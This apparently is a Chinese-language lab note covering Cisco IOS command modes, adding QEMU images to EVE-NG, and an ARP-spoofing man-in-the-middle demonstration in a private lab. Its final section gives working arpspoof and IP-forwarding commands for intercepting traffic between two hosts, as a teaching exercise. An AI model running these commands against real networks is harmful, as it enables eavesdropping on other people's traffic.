


# 中間人攻擊

## Cisco IOS模式
>有3種模式，可以從提示符來知道目前所在模式

* user mode : 只允許用戶使用基本指令操作，例如查看系統狀態指令
> 可以使用`en`來進入privilege mode

```sh
 Router>
```

* privilege mode/enable mode : 允許用戶查看系統配置，重新啟動系統
> 可以使用`conf t`進入global configuration mode

```sh
Router#
```
* global configuration mode : 允許用戶修改正在運行的系統配置
> 可以使用`exit`或`ctrl+Z`回到privilege mode

```sh
Router(config)#
```


## 增加節點類別

### 鏡像類別
>可以分成3類
* Qemu
* IOL
* Dynamips

### 增加Node鏡像
> 以下為增加Qemu鏡像，若要加入其他Qemu鏡像方式，可在[EVE-NG官網](https://www.eve-ng.net/index.php/documentation/howtos/howto-create-own-linux-host-image/)找到

* 透過WinSCP將要加入的鏡像檔放置在虛擬機`/opt/unetlab/addons/qemu`目錄下


* 加上固定權限

```sh
/opt/unetlab/wrappers/unl_wrapper -a fixpermissions
```

* 完成畫面


---
## 中間人攻擊

### 實驗環境
> 讓VPC與win進行通訊，而可以透過工具讓Linux進行竊聽
> 工具可以使用Ettercap、Arpspoof等



### 環境設定

* 根據上圖進行IP設定

### 使用Arpspoof進行攻擊
>在Linux上進行操作

* 開啟路由轉發功能

```sh
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

* 開啟Arpspoof進行攻擊

```sh
# 讓VPC以為Linux的IP為192.168.1.2
arpspoof -i etho -t 192.168.1.1 192.168.1.2
# 讓win以為Linux的IP為192.168.1.1
arpspoof -i etho -t 192.168.1.2 192.168.1.1
```

### 測試

* VPC(192.168.1.1) ping win (192.168.1.2)



---
### 參考資料
* [Cisco IOS Command Lines Modes, What is User mode, Privileged mode and Global Configuration mode ](https://www.omnisecu.com/cisco-certified-network-associate-ccna/cisco-ios-command-line-modes.php)
* [EVE(虚拟仿真)网络模拟器如何导入Dynamips、IOL和Qemu格式的镜像--知乎](https://zhuanlan.zhihu.com/p/137472418)
* [9.8 Arpspoof工具 | 大学霸 Kali Linux 安全渗透教程](https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/58.html)

    
